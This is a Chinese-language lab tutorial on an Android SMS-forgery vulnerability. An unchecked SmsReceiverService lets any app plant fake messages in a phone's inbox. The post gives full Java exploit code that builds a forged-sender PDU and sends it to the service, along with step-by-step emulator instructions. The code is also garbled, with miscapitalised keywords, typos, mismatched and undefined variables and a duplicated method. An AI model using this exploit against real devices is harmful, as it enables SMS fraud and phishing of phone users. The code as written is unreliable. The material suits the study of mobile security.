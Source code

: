 ```yaml
---
title: Android安全之短信欺诈漏洞
date: 2021-12-27 19:46:16
tags: 
- Android
- 短信
- 欺诈
---
```


目的：
* 通过JAVA编程理解Android手机安全漏洞的基本原理
* 用JAVA编写伪造短信代码，向系统收件箱发送伪造短信

原理：
* 漏洞原理介绍
* 该系统漏洞能够使攻击者无需申请任何权限发送短信到用户收件箱。 出现该漏洞的原因是Android系统的com.android.mms.transaction。
* SmsReceiverService系统服务未判断启动服务的调用者，攻击者可以通过该应用发送伪装短信到用户收件箱。本漏洞实质上是一种能力的泄漏。
* 漏洞发送的短信并不经过GSM网络,所以即使手机没有插sim卡,也照样可以收到短信,这让大部分的短信防火墙完全失效。

过程：

打开eclipse，点击file-import，选择android目录下的existing android code into workspace![image-20211229100046569](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100046569.png)

选择simpleedu28项目![image-20211229100118574](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100118574.png)

导入后的项目![image-20211229100200697](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100200697.png)

在工程目录res/layout的界面代码，这里可以通过控制代码，编辑相应的函数生成欺诈短信，点击activity_main.xml，可以看到界面布局的文件![image-20211229100257165](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100257165.png)

在mainactivity中添加运行欺诈短信的代码，点开`msgdemo2\src\com.example.msgdemol\mainactivity.java`![image-20211229100406295](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100406295.png)

在mainactivity的init()函数添加如下代码，为button设置监听事件

```java
//为发送按钮设置监听
sendBt.setOnClickListener(new OnClickListener(){
       @Override
       public void onClick(View v){
                       /*
                 *获取输入的伪造号码和内
                 *判断输入是否合法
*/
String num=msgNumTv.getText().toString();
String con=msgConTv.getText().toString();
If(num.length()<1||con.length()<1)
{ Toast.makeText(MainActivity.this,”电话号码或者内容没有输入”,Toast.LENGTH_SHORT).show();
return;}
//判断通过伪造短信
//make Msg(MainActivity.this,num,con);
createFakeMsg(MainActivity.this,num,con);}
});
```

在MainActivity的init()函数,跳转到init函数位置添加上一步的代码

![image-20211229101856123](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229101856123.png)createFakeMsg的具体代码

```java
/**
 *伪造短信
* @param context
@param num
* @param con
 */
          Private static void createFakeMsg(Context context,String num,String con){
                byte[] pdu=null;
                byte[] scBytes=PhoneNumberUtils.networkPortionToCalledPartyBCD(num);
                int lsmcs=scBytes.length;
                byte[] dateBytes=new byte[7];
                Calendar calendar=new GregorianCalendar();
                dateBytes[0]=reverseByte((byte)(calendar.get(Caledar.YEAR)));
                dateBytes[1]=reverseByte((byte)(calendar.get(Caledar.MONTH)+1));
                dateBytes[2]=reverseByte((byte)(calendar.get(Caledar.DAY_OF_MONTH)));
                dateBytes[3]=reverseByte((byte)(calendar.get(Caledar.HOUR_OF_DAY)));
                dateBytes[4]=reverseByte((byte)(calendar.get(Caledar.MINUTE)));
                dateBytes[5]=reverseByte((byte)(calendar.get(Caledar.SECOND)));
                dateBytes[6]=reverseByte((byte)(（calendar.get(Caledar.ZONE_OFFSET)+calendar.get(Calendar.DST_OFFSET))/(60*1000*15)）);
                try{
          // Log.d(LOG,”test one”);
                 ByteArrayOutputStream bo=new ByteArrayOutputStream();
                 bo.write(lsmcs);
                 bo.write(scBytes);
                 bo.write(0x04);
                 bo.write((byte)num.length());
                 bo.write(senderBytes);
                 bo.write(0x00);
                 bo.write(0x00);//encoding:0 for default 7bit
                 bo.write(dateBytes);
                 try{
          String sReflectedClassName=”com.android.internal.telephony.GsmAlphabet”;
          Class cRefectedNFCExtras=Class.forName(sReflectedClassName);
          Method stringToGsm7BitPacketd=cReflectedNFCExtras.getMethod(“stringToGsm7BitPacketd”,new Clas[]{String.class});
          stringToGsm7BitPacked.setAccessible(true);
          byte[] conbytes=(byte[]) stringToGsm7BitPacked.invoke(null,con);
          bo.write(conbytes);
          }catch(Exception e){e.printStackTrace();}
          pdu=bo.toByteArray();}
          catch(IOException e){e.printStackTrace();}
          Intent intent=newIntent();
          Intent.setClassName（“com.android.mms.transaction.SmsReceiverService”）;
          Intent.setAction(“android.provider.Telephony.SMS_RECEIVED”);
          Intent.putExtra(“pdus”,new Object[]{pdu});
          //intent.putExtra(“format”,”3gpp”);
          Context.startService(intent);}
          Private static byte reverseByte(byte b){
          private static byte reverseByte(byte b){
          return (byte)((b&0xf0)>>4|(b&0x0f)<<4);}
```

在已经设计好的欺诈短信发送界面，有两部分内容：伪造号码与伪造内容。这里的伪造号码，这是发件人的号码，因为是发给自己，所以没有收件人号码，。至于内容可以随意填写内容，使短信更具欺诈性。

AVD中打开虚拟机Simpleedu28虚拟安卓![image-20211229102354469](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102354469.png)

右键MSGDEMO2，选择run as-android application按钮![image-20211229102712162](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102712162.png)

虚拟端返回运行后结果![image-20211229102740838](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102740838.png)

点击发送，手机接收欺诈短信

![image-20211229102848974](http://121.5.125.62/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102848974.png)

